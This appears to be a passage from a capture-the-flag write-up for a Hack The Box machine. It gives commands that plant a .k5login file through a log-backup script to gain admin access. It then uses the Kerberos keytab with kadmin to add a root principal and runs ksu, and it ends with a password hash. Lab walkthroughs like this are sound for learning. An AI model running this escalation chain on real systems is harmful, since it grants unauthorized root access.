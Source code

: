 log_backup.sh

```bash
#!/bin/bash

/usr/bin/rsync -avz --no-perms --no-owner --no-group /var/log/squid/ /home/admin/
cd /home/admin
/usr/bin/tar czf squid_logs.tar.gz.`/usr/bin/date +%F-%H%M%S` access.log cache.log
/usr/bin/rm -f access.log cache.log
```

j.nakazawa is in the group of squid and we can write in the /var/log/squid dir
also whatever is in squid dir gets copied to /home/admin

Since every where is kerberos we can use kerberos feature of .k5login file
https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_config/k5login.html

just put the `j.nakazawa@REALCORP.HTB` in .k5login and put that in /var/log/squid

```
echo "j.nakazawa@REALCORP.HTB" > .k5login
cp .k5login /var/log/squid

ssh admin@srv01.realcorp.htb
```

and we are admin

## **Root**

ref: https://web.mit.edu/kerberos/krb5-devel/doc/admin/admin_commands/kadmin_local.html#kadmin-1

file krb5.keytab is useful becuase it is used in various authentication in kerberos
to view the content of that file

`klist -k /etc/krb5.keytab`

then login to kadmin

```
kadmin -k -t /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
```

after login I listed all the users

```
list_principals

K/M@REALCORP.HTB
host/srv01.realcorp.htb@REALCORP.HTB
j.nakazawa@REALCORP.HTB
kadmin/admin@REALCORP.HTB
kadmin/changepw@REALCORP.HTB
kadmin/srv01.realcorp.htb@REALCORP.HTB
kiprop/srv01.realcorp.htb@REALCORP.HTB
krbtgt/REALCORP.HTB@REALCORP.HTB
```

there was no root

so just add the root principal

```
add_principal root@REALCORP.HTB
```

type the password and exit the console

then type ksu and login

ROOTED

$6$2ZKaulGjQ1QUYQHO$OmVJBK0.VeikBcOsxyrLfPCEkrfo6S8SJmHd4FH7el9vHcduJrO7jHYEHjIN7Z4n1c3KBLNe5L9inXSgeBsNS.
